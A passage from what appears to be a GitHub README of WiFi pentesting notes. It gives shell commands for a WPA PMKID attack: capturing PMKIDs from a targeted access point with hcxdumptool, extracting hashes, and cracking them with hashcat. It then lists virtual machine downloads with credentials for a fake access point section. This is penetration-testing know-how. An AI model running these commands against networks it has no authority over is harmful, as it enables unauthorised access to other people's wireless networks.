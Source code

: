 1. Install Hcxdumptool and Hcxtool (you can use this [script](scripts/wpa/pmkid_install.sh)).

2. Stop Network Manager

```bash
airmon-ng check kill
```


3a. If you want to attack all the networks 

```bash
TO DO
```


3b. If you want to attack a specific MAC address

- Create a text file ($FILTER_FILE) and add the MAC address without ":". You can use *sed* and redirect the output to a file:

```
echo $MAC | sed 's/://g' > $FILTER_FILE
```

- Capture PMKID

```bash
hcxdumptool -i $IFACE -o $PCAPNG_FILE --enable_status=1 --filterlist=$FILTER_FILE --filtermode=2
```

4. Create $HASH_FILE 

```bash
hcxpcaptool -z $HASH_FILE $PCAPNG_FILE
```
 
The structure of each line is: PMKID * ROUTER MAC * STATION * ESSID (check at: https://www.rapidtables.com/convert/number/hex-to-ascii.html) 

5. Crack it using Hashcat (option 16800)

```bash
hashcat -a 0 -m 16800 $HASH_FILE $WORDLIST --force
```


-------------------------

<br>

# 5. <a name="5"></a> WPA2-Enterprise

## 5.1 <a name="51"></a>Fake Access Points

### Virtual machines download

| Operative system | Platform | Credentials | Size | Link |
| ---------------- | -------- | ----------- | ---- | ---- |
| Ubuntu 16.04.5   | VMware   | ricardojoserf:wifi | 3.25 GB | [MEGA](https://mega.nz/#!5h92EQYa!LHCNzYTN3GXEYYWcXgOUsnU37PpksbcaUFRlOK7RyRM) |
| Kali 2019.1      | VMware   | root:wifi          | 4.99 GB | [MEGA](https://mega.nz/#!s90G0SBL!P4tYAfAT42Q2JVQY723KcW0XzKqEC8lbxVuJVbu7aTM) |
| Ubuntu 16.04.5   | VirtualBox | ricardojoserf:wifi | 3.18 GB | [MEGA](https://mega.nz/#!so9AzC7Q!XwAUmiSRUvldwrkNsSoyEbUTCUJDiyG3P1O_sYJNlcY) |
| Kali 2019.1      | VirtualBox | root:wifi        | 5.56 GB | [MEGA](https://mega.nz/#!FwEznIAI!mDNEhDb8lmVDhMvbl3kx3Rh99KXpCIeylNyXZcp-5gI) |
